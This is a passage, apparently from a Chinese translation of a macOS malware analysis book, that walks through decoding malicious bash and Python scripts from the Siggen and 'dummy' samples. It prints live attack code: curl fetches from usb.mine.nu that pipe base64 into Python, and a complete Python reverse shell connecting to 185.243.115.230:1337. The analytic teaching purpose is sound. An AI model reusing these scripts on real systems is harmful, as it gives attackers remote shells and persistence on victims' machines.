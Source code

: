 一旦这些编码的脚本片段被解码，就容易全面理解脚本。第一行，`echo c2NyZ...Wwn | base64 -D | sh`，解码并执行 `screen -dm bash -c 'sleep 5;killall Terminal'`，它有效地终止任何正在运行的 *Terminal.app* 实例，这很可能是作为一种基本的反分析技巧。接着，通过 `curl`，恶意软件下载并保持一个名为 *a.plist* 的启动代理。接下来，它解码并执行另一个模糊化的命令。解码后的命令，`chmod +x ~/Library/LaunchAgents/a.plist`，不必要地将启动代理的属性列表设置为可执行。然后，通过 `launchctl load` 命令加载这个属性列表。恶意软件接着下载另一个文件，即另一个名为 *c.sh* 的脚本。解码最后两行后可以发现，恶意软件首先将该脚本设置为可执行，然后执行它。

那么 */Users/Shared/c.sh* 脚本做了什么呢？让我们来看看（清单 4-9）。

```
#!/bin/bash
v=$( curl --silent http://usb.mine.nu/p.php | grep -ic 'open' )
p=$( launchctl list | grep -ic "HEYgiNb" )
if [ $v -gt 0 ]; then
if [ ! $p -gt 0 ]; then
 echo IyAtKi0gY29kaW5n...AgcmFpc2UK | base64 --decode | python 3
fi
```

清单 4-9：另一个恶意的 bash 脚本（Siggen）

在连接到 *usb.mine.nu/p.php* 后，它会检查响应中是否包含字符串 `'open'`。之后，脚本检查是否有名为 `HEYgiNb` 的启动服务正在运行。此时，它解码一大段 base64 编码的数据，并通过 Python 执行它。接下来我们来讨论如何静态分析这样的 Python 脚本。

### Python 脚本

轶事性地说，Python 似乎是 Mac 恶意软件作者的首选脚本语言，因为它非常强大、灵活，并且 macOS 原生支持。尽管这些脚本通常利用基本的编码和混淆技术来使分析变得复杂，但分析恶意 Python 脚本仍然是一项相对直接的任务。一般的做法是首先解码或去混淆 Python 脚本，然后阅读解码后的代码。尽管各种在线网站可以帮助分析混淆的 Python 脚本，但手动分析的方法也同样有效。接下来我们将讨论两种方法。

让我们首先考虑 清单 4-10，一个未混淆的示例：虚拟脚本的小型 Python 载荷（包含在一个 bash 脚本中）。

```
#!/bin/bash
while :
do
      python -c 1 'import socket,subprocess,os; 

      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
    2 s.connect(("185.243.115.230",1337)); 

    3 os.dup2(s.fileno(),0); 
      os.dup2(s.fileno(),1); 
      os.dup2(s.fileno(),2); 

    4 p=subprocess.call(["/bin/sh","-i"]);' 
      sleep
done
```

清单 4-10：一个恶意的 Python 脚本（虚拟脚本）

由于这段代码没有被混淆，理解恶意软件的逻辑是很直接的。它首先导入了多个标准的 Python 模块，如 `socket`、`subprocess` 和 `os` 1。接着，它创建了一个套接字，并连接到 `185.243.115.230` 的 `1337` 端口 2。然后，它将 `STDIN`（`0`）、`STDOUT`（`1`）和 `STDERR`（`2`）的文件句柄复制， 3 将它们重定向到套接字。

脚本接着通过 `-i` 标志 4 以交互模式执行 shell，*/bin/sh*。由于 `STDIN`、`STDOUT` 和 `STDERR` 的文件句柄已经被复制到连接的套接字，攻击者输入的任何远程命令都将在受感染的系统上本地执行，任何输出也会通过套接字发送回来。换句话说，这段 Python 代码实现了一个简单的交互式远程 shell。
